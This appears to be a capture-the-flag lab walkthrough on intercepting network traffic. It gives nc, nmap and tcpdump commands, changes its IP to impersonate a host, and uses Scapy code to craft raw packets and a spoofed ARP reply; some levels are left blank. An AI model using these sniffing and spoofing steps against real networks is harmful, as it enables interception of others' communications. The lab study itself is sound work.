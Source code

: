 # Intercepting Communication
- *level 1*: connect to a host, we can use `nc <IP> <PORT>`
- *level 2*: listen to a port `nc -l <PORT>`
- *level 3*: use `nmap` to scan a subnetwork, `nmap -p 31337 10.0.0.0/24`, and find the hosts that are up
- *level 4*: the subnetwork is larger, use Python to scan the network with multi-threading, to avoid creating too many threads, use a thread pool. We can also set `--max-parallelism` and `--min-parallelism` in `nmap`: `nmap -T5 --min-parallelism 200 --max-parallelism -p <PORT> <SUBNETWORK>`
- *level 5*: `tcpdump -i any port <PORT> -A`, the flag is in the data field of the packets
- *level 6*: this time, each packet will contain at most 1 byte of the flag, use Python and `Scapy` to sniff the packets to the specified port, and concatenate the characters in the payload, then we will get the flag
- *level 7*: `10.0.0.4` is communicating with `10.0.0.2: 31337`, we can change our IP address `ifconfig eth0 10.0.0.2`, then listen to port `31337` and get the flag
- *level 8*: we can use `arping 10.0.0.3` to get the MAC address of the host, then `sendp(Ether(dst = '1e:5f:b7:14:a6:0e', src = 'ce:25:29:b2:bc:99', type=0xFFFF), iface = 'eth0')`, it is important to specify `iface`, I didn't get the flag until I include this parameter
- *level 9*: 
    ```
    eth = Ether(dst = 'ff:ff:ff:ff:ff:ff', src = get_if_hwaddr('eth0'))
    ip = IP(dst = '10.0.0.3', proto = 0xFF)
    pkt = eth / ip
    sendp(pkt, iface = 'eth0')
    ```
- *level 10*: 
    ```
    eth = Ether(dst = 'ff:ff:ff:ff:ff:ff', src = get_if_hwaddr('eth0'))
    ip = IP(dst = '10.0.0.3')
    tcp = TCP(sport=31337, dport=31337, seq=31337, ack=31337, flags='APRSF')
    pkt = eth / ip / tcp
    sendp(pkt, iface = 'eth0')
    ```
- *level 11*: 
- *level 12*: send an ARP reply
    ```
    eth = Ether(dst = 'a2:bb:52:d2:69:a5', src = get_if_hwaddr('eth0'))
    arp = ARP(op = 2, psrc = get_if_addr('eth0'), pdst = '10.0.0.3', hwsrc = '86:55:bf:5b:5c:a0') # op: 2 is-at
    pkt = eth / arp
    pkt.show()
    sendp(pkt, iface = 'eth0')
    ```
- *level 13*: 
- *level 14*: 